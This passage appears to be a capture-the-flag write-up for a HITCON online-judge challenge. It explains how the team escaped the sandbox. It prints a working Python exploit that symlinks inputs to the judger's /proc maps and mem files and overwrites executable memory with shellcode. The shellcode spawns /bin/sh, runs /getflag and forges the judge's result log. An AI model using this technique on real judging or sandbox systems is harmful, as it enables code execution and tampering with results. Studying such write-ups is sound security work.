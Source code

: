 Initially, we tried to target the `/entrypoint.sh` script, since Bash will reread the script after completing the loop. Although this worked on our local setup, it kept failing remotely; we eventually determined by reading `/proc/mounts` that the root filesystem was mounted readonly (Docker's `--read-only` flag), making most of the files on the filesystem off-limits for this attack.

Eventually, the solution we chose was to target `/proc/self/mem`. The judger will open this file itself, giving our process unrestricted read/write access to the judger's memory space. In order to figure out the memory layout, we also made a symlink from `2.txt` to `/proc/self/maps`; since this file is provided on `stdin`, this gives our process the memory layout of the judger. We can then overwrite the judger's executable memory with shellcode that will run `/getflag` for us:

```python
## <<<UTILITIES
import sys, traceback
print_ = print
def print(*args, **kwargs):
    print_(*args, **kwargs)
    sys.stdout.flush()

def excepthook(tp, value, tb):
    traceback.print_exception(tp, value, tb, file=sys.stdout)
    sys.stdout.flush()

sys.excepthook = excepthook
## UTILITIES>>>

import os

next_ppid = os.getppid() + 9

if os.readlink("/dev/fd/0").endswith("1.txt"):
    os.symlink(f"/proc/{next_ppid}/maps", "2.txt")
    os.symlink(f"/proc/{next_ppid}/mem", "2.txt.json")
elif os.readlink("/dev/fd/0").endswith("/maps"):
    maps = sys.stdin.read().split("\n")
    for row in maps:
        if 'r-x' in row:
            break
    addrs = row.split()[0]
    addr_start, addr_end = [int(c, 16) for c in addrs.split("-")]
    addr_sz = addr_end - addr_start
    os.lseek(3, addr_start, 0)
    sc = b'1\300H\215=\24\0\0\0PTZH\215O\vQH\215O\bQWT^\260;\17\5/bin/sh\0-c\0$CMD$\0'
    sc = sc.replace(b"$CMD$", b"""
echo '{"cpu_time":1337,"real_time":1337,"memory":1337,"signal":0,"exit_code":0,"error":0,"result":4,"test":"2.txt","output":"'$(/getflag give me flag | base64)'"}' > /run/judge/result.log
""")
    os.write(3, b"\x90" * (addr_sz - len(sc)) + sc)
```

This gives us the flag from a fake testcase 2 output: `hitcon{level2__uhhhhh_so_my_patch_went_very_wrong_hope_it's_intended_now}`
